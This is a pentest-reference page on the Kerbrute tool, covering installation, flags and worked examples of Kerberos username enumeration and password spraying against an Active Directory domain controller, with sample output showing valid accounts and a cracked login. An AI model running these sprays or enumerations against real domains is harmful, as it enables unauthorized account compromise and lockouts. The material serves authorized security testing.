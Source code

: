 ```yaml
---
title : "Kerbrute"
# pre : ' '
description : "This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication."
date : 2021-02-15T13:24:03+01:00
# hidden : true
# draft : true
weight : 980
tags : ['Other', 'Active Directory']
---
```


---

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.

A list of common used AD usernames can be downloaded [this link](https://github.com/crypt0rr/common-ad-usernames).

## Installation

Download latest binary from [Github.com](https://github.com/ropnop/kerbrute/releases/latest) or install directly via Go `go install github.com/ropnop/kerbrute@latest`.

## Usage

```plain
kerbrute [command]
```

## Flags

```plain
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 09/22/25 - Ronnie Flathers @ropnop

This tool is designed to assist in quickly bruteforcing valid Active Directory accounts through Kerberos Pre-Authentication.
It is designed to be used on an internal Windows domain with access to one of the Domain Controllers.
Warning: failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts

Usage:
  kerbrute [command]

Available Commands:
  bruteforce    Bruteforce username:password combos, from a file or stdin
  bruteuser     Bruteforce a single user's password from a wordlist
  help          Help about any command
  passwordspray Test a single password against a list of users
  userenum      Enumerate valid domain usernames via Kerberos
  version       Display version info and quit

Flags:
      --dc string       The location of the Domain Controller (KDC) to target. If blank, will lookup via DNS
      --delay int       Delay in millisecond between each attempt. Will always use single thread if set
  -d, --domain string   The full domain to use (e.g. contoso.com)
  -h, --help            help for kerbrute
  -o, --output string   File to write logs to. Optional.
      --safe            Safe mode. Will abort if any user comes back as locked out. Default: FALSE
  -t, --threads int     Threads to use (default 10)
  -v, --verbose         Log failures and errors

Use "kerbrute [command] --help" for more information about a command.
```

## Examples

### Validate usernames against domain

After you succesfully enumerated [usernames](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt) you can try ASREPRoasting with [Impacket GetNPUsers.py]({{< ref "getnpusers-py" >}}) or use [CrackMapExec]({{< ref "tools/framework/crackmapexec" >}}) to do a password spray.

```plain
$ ./kerbrute userenum --dc 10.10.10.10 -d offsec.nl usersnames.txt -o userenum-output.txt

Version: v1.0.3 (9dad6e1) - 02/15/21 - Ronnie Flathers @ropnop

2021/02/15 13:22:24 >  Using KDC(s):
2021/02/15 13:22:24 >      10.10.10.10:88

2021/02/15 13:22:24 >  [+] VALID USERNAME:     john@offsec.nl
2021/02/15 13:22:24 >  [+] VALID USERNAME:     jane@offsec.nl
2021/02/15 13:22:24 >  [+] VALID USERNAME:     johndo-adm@offsec.nl
2021/02/15 13:22:24 >  [+] VALID USERNAME:     janedo-adm@offsec.nl
2021/02/15 13:22:24 >  Done! Tested 21 usernames (4 valid) in 0.017 seconds
```

To extract the valid usernames to a separate file you can use the following command.

```plain
cat userenum-output.txt | awk '{print $7}' | cut -d '@' -f1 > available-users.txt
```

### Password spray

It can be helpfull to use [LDAPDomainDump]({{< ref "ldapdomaindump" >}}) to gather all user accountnames, filter them and use as input for the spray.

```plain
$ ./kerbrute passwordspray --dc 10.10.10.10 -d offsec.nl users.txt Welkom01!

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 02/15/21 - Ronnie Flathers @ropnop
```

### Username as password

It can be helpfull to use [LDAPDomainDump]({{< ref "ldapdomaindump" >}}) to gather all user accountnames and use them as input for the 'user-as-pass' spray.

```plain
$ ./kerbrute passwordspray --dc 10.10.10.10 -d offsec.nl users.txt --user-as-pass

   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/   \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: v1.0.3 (9dad6e1) - 01/17/22 - Ronnie Flathers @ropnop

2022/01/17 15:35:28 >  Using KDC(s):
2022/01/17 15:35:28 >   10.10.10.10:88

2022/01/17 15:35:31 >  [+] VALID LOGIN:  svc_dcsync@offsec.nl:svc_dcsync
2022/01/17 15:35:38 >  Done! Tested 4393 logins (1 successes) in 9.460 seconds
```

## URL List

- [Github.com - kerbrute](https://github.com/ropnop/kerbrute)

